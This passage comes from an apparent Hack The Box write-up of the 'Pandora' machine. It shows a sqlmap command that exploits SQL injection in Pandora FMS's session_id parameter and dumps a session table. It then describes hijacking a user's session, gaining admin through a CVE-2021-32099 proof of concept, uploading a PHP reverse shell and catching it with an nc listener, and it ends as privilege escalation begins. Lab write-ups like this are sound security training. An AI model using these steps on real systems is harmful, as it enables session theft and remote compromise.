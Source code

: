 We can then dump the `tsessions_php` table to steal a session from an authenticated user.

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Pandora]
└─$ sqlmap -u "http://localhost:5555/pandora_console/include/chart_generator.php?session_id=''" --level=5 --risk=3 --dbms=mySQL --dump -T "tsessions_php"

+----------------------------+-----------------------------------------------------+-------------+
| id_session                 | data                                                | last_active |
+----------------------------+-----------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                            | 1638783555  |
---SNIP---
| bbhf4mtod74tqhv50mpdvu4lj5 | id_usuario|s:6:"daniel";                            | 1641201982  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                            | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |
| heasjj8c48ikjlvsf1uhonfesv | NULL                                                | 1638540345  |
| hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                            | 163816849   |
```
Based on the dump we can steal the session from the `matt` user by appending it to the url as the value of the `session_id` variable. Once this is done we see the dashboard of the `matt` user.

![pandora dashboard](dashboard.png)

Looking at the blogpost from earlier, we learn of a RCE vulnerability which exists for authenticated users in Pandora via the `events` feature. Another option is to use the POC found [here](https://github.com/zjicmDarkWing/CVE-2021-32099). This POC gives us admin rights in the dasboard. We can then upload a file to the system which is a php reverse shell. 

![upload](upload.png)

We can then access the `/images` directory, find our shell and gain access to the system:

![images](images.png)

```console
┌──(bitis㉿workstation)-[~/htb/Machines/Pandora]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.17.182] from (UNKNOWN) [10.129.82.187] 53232
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:44:49 up  1:33,  1 user,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
daniel   pts/1    10.10.17.182     18:00   44:29   0.03s  0.03s -bash
uid=1000(matt) gid=1000(matt) groups=1000(matt)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home/matt
$ ls
user.txt
```
## Privilege escalation
Now that we have user access to the system we need to gain access to the root user. We start out by finding SUID binaries:
